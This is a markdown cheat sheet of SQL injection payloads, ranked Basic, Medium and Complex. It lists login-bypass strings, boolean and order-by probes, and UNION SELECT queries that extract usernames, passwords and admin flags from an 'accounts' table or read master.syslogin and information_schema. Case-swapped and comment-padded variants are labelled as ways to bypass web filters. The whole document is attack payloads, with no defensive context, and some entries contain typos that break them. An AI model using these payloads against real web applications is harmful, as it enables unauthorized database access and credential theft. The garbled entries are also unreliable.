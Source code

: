 

### Summary:


__Basic___

>> __' OR 1=1 ;--__ 
    
>> __') OR 1=1; --__ 
   
>> __' and 'a'='a__

>> __' and 'a'='b__

   
&nbsp;
&nbsp;
&nbsp;

__Medium:__


| __1' and 1=1__ &nbsp;  | nbsp; True 


| __1' and 1=0__ &nbsp;  |  &nbsp; False 


| __1' order by 1 __ &nbsp; |  &nbsp; True


| __1' order by 10000__ &nbsp; | &nbsp; False


| __1 or db_name()=1);__ &nbsp;|  &nbsp;


| __1 or db_name(0)=1)__ &nbsp; | &nbsp; increase the number until the database does not show any errors



| __9999' UNION SELECT name,222,'else1' FROM master.syslogin; --__ 

&nbsp;
&nbsp;
&nbsp;

__Complex:__

| __union select 1, 2, 3 %23__                  &nbsp;&nbsp;  |  Bypass Web filters  | 


| __uNioN+sEleCt+1,2+%23__                      &nbsp;&nbsp;  |  Bypass Web filters  |  


| __uNioN`/**/`sEleCt`/**/`1,2`/**/`%23__       &nbsp;&nbsp;  |  Bypass Web filters  | 


| __union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166__  &nbsp;&nbsp; | hex encoding                                                                                                                                dbname   


| __' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts'__ | 


| __' union select username, pass, is_admin from 'accounts'__ &nbsp;&nbsp;  | 


| __' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb'__ |

